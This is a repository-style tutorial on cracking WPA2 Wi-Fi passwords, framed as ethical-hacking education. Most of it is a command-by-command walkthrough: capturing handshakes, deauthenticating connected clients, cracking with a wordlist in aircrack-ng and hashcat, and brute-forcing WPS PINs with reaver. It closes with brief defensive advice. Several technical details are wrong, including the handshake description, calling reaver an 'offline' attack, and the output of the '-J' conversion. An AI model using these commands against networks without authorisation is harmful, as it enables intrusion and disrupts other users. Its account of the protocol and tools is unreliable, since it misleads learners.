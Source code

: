 # WPA2 Cracking Guide

This repository contains a detailed guide to cracking WPA2 Wi-Fi networks for educational and ethical hacking purposes only. Always ensure you have permission to test any network you attempt to crack.

## Table of Contents

1. [Introduction](#introduction)
2. [Understanding WPA2 Encryption](#understanding-wpa2-encryption)
3. [Tools Required for WPA2 Cracking](#tools-required-for-wpa2-cracking)
4. [Setting Up a Test Environment](#setting-up-a-test-environment)
5. [Cracking WPA2 Using Aircrack-ng](#cracking-wpa2-using-aircrack-ng)
6. [Cracking WPA2 Using Hashcat](#cracking-wpa2-using-hashcat)
7. [Using Reaver for WPA2 PIN Attacks](#using-reaver-for-wpa2-pin-attacks)
8. [Best Practices & Security Measures](#best-practices--security-measures)
9. [Ethical Considerations](#ethical-considerations)
10. [Conclusion](#conclusion)

---

## Introduction

Wi-Fi Protected Access 2 (WPA2) is a security protocol used to protect Wi-Fi networks. It is commonly used in home and business networks. WPA2 uses Advanced Encryption Standard (AES) for encryption, making it more secure than its predecessor, WPA. However, WPA2 is not immune to attacks, and security researchers have identified ways to crack WPA2 passwords through techniques such as dictionary attacks, brute force, and more.


## Understanding WPA2 Encryption

WPA2 operates on a 4-way handshake that occurs when a client connects to a WPA2-secured network. This handshake is used to establish an encryption key (pairwise transient key, PTK) between the client and the access point. Cracking WPA2 essentially means capturing this handshake and trying to deduce the password from it.

### The WPA2 4-Way Handshake
- **Step 1:** The client sends a request to connect to the access point (AP).
- **Step 2:** The AP responds with a nonce (a random value).
- **Step 3:** The client generates a nonce, encrypts it with a key derived from the password, and sends it back to the AP.
- **Step 4:** The AP and client complete the handshake by verifying the generated keys.

The goal of cracking WPA2 is to capture this 4-way handshake and use a brute-force attack to guess the password by matching the captured handshake against a dictionary or through a custom attack.

---

## Tools Required for WPA2 Cracking

The following tools are commonly used for WPA2 cracking:

### 1. **Aircrack-ng**
   - A suite of tools for auditing wireless networks. It includes tools to capture handshakes, inject packets, and crack passwords using dictionary or brute-force attacks.

   - **Installation:**
     ```bash
     sudo apt update
     sudo apt install aircrack-ng
     ```

### 2. **Hashcat**
   - A powerful password-cracking tool that can be used to crack WPA2 handshakes. It uses both CPU and GPU to accelerate cracking.

   - **Installation:**
     ```bash
     sudo apt update
     sudo apt install hashcat
     ```

### 3. **Reaver**
   - A tool specifically designed for offline brute-force attacks on the WPS (Wi-Fi Protected Setup) PIN of a router, which can often be used to retrieve WPA2 passwords.

   - **Installation:**
     ```bash
     sudo apt update
     sudo apt install reaver
     ```

---

## Setting Up a Test Environment

To practice WPA2 cracking, it’s important to set up a controlled environment:

1. **Wireless Network**: You should either own a router or have permission to test an existing one.
2. **Wireless Adapter**: Ensure that your Wi-Fi adapter supports monitor mode and packet injection (e.g., Alfa AWUS036H).
3. **Kali Linux**: Kali Linux is a penetration testing distribution that comes pre-loaded with the necessary tools.

---

## Cracking WPA2 Using Aircrack-ng

### Step 1: Monitor Mode
First, put your Wi-Fi adapter into monitor mode. This allows it to listen to network traffic.

```bash
sudo airmon-ng start wlan0
```
### Step 2: Capture the 4-Way Handshake
Use airodump-ng to capture the handshake. Start monitoring the desired channel.
```bash
sudo airodump-ng wlan0mon
```
Once you identify the target network, note the channel (e.g., 6) and the BSSID (MAC address) of the AP.
```bash
sudo airodump-ng --bssid <BSSID> -c <channel> -w capture wlan0mon
```
Wait for a client to connect or deauthenticate a client to force a handshake:
```bash
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0mon
```
Once the handshake is captured, you will see a .cap file.
### Step 3: Crack the Password
Finally, use aircrack-ng to crack the WPA2 password using a dictionary file:
```bash
aircrack-ng capture.cap -w /path/to/wordlist.txt
```
### Step 4: Success or Failure
If the correct password is found in the wordlist, the crack will succeed.
## Cracking WPA2 Using Hashcat
### Step 1: Prepare the Handshake
Use aircrack-ng to convert the .cap file into a format that Hashcat can use.

```bash
aircrack-ng capture.cap -J handshake
```
This will create a handshake.hccapx file.

### Step 2: Start Hashcat
Now, use Hashcat to crack the password using your wordlist.

```bash
hashcat -m 2500 handshake.hccapx /path/to/wordlist.txt
```
You can adjust settings based on your system’s hardware for optimized performance. You can also use combined graphics cards to make the cracking process faster using GPUs. 

## Using Reaver for WPA2 PIN Attacks
Reaver can be used to attack routers that have WPS enabled. The WPS PIN is a 8-digit number that is vulnerable to brute-force attacks.

```bash
sudo reaver -i wlan0mon -b <BSSID> -vv
```
Reaver will attempt to guess the PIN and retrieve the WPA2 password.

**Warning**: WPS attacks may take a long time (hours or days) and may also damage the router’s security (e.g., locking out further attempts).
## Best Practices & Security Measures
Use Strong Passwords:
Ensure you use long, random passwords that are difficult to guess.
Disable WPS: 
If not needed, disable Wi-Fi Protected Setup (WPS) as it is vulnerable to brute-force attacks.
Enable WPA3:
WPA3 is the latest Wi-Fi security protocol and offers better protection than WPA2.
Monitor Your Network:
Regularly check for unauthorized devices on your network.
Use VPNs: 
A Virtual Private Network (VPN) can add an extra layer of security to your online activity.
## Ethical Considerations
WPA2 cracking is a serious matter, and performing attacks on networks without permission is illegal. Always ensure you have explicit permission before attempting to crack or test the security of any Wi-Fi network.

Here are some guidelines to follow:

**Permission**: 

Obtain written permission to test the network.   

**Ethical Hacking**:

If you're conducting penetration testing, ensure it is part of a legitimate security assessment.   

**Confidentiality**: 

Respect the privacy of others and avoid causing harm to networks.
## Conclusion
Cracking WPA2 can be a rewarding challenge for ethical hackers, but it should only be done in a responsible and legal manner. By understanding the tools and techniques involved, you can better secure your own networks and contribute to improving overall network security.

